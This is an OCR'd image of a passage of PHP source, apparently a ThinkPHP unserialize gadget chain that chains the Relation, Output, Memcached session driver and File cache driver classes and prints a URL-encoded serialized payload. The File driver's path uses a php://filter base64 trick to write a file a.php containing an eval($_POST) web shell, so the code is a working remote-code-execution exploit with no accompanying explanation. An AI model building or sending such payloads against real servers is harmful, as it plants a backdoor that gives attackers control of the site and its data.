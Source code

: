 ```
 use think\\console\\Output;
 class Relation{
 protected $type;
 protected $query;
 protected $where;
 function \_\_construct(){
 $this->type = 2;
 $this->query = new Output();
 $this->where = '1';
 }
 }
}
namespace think\\console{
 use think\\session\\driver\\Memcached;
 class Output{
 private $handle;
 protected $styles;
 function \_\_construct()
 {
 $this->styles = \['where'\];
 $this->handle = new Memcached(); //$handle->think\\session\\driver\\Memcached
 }
 }
}
namespace think\\session\\driver {
 use think\\cache\\driver\\File;
 class Memcached
 {
 protected $handler;
 function \_\_construct()
 {
 $this->handler = new File(); //$handle->think\\cache\\driver\\File
 }
 }
}
namespace think\\cache\\driver {
 class File
 {
 protected $options=null;
 protected $tag;
 function \_\_construct(){
 $this->options=\[
 'expire' => 3600, 
 'cache\_subdir' => false, 
 'prefix' => '', 
 'path' => 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g/../a.php',
 'data\_compress' => false,
 \];
 $this->tag = 'xxx';
 }
 }
}
namespace {
 $window = new think\\Process();
 echo str\_replace('+', '%20', urlencode(serialize($window)));
 //echo base64\_encode(serialize($window));
}
```

